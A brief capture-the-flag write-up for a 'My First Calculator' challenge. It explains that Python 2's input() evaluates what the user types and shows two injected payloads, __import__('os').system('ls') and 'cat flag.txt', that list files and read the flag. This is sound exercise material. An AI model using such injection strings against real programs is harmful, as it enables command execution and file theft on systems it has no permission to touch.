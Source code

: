 # My First Calculator

By entering anything other than a number we see it's running `input()` with python2, which is basically equivalent to `eval(input())` on python3

So uhhhh just:

`__import__('os').system('ls')`

oh hey flag.txt

`__import__('os').system('cat flag.txt')`

## Flag:flag{please\_use\_python3}

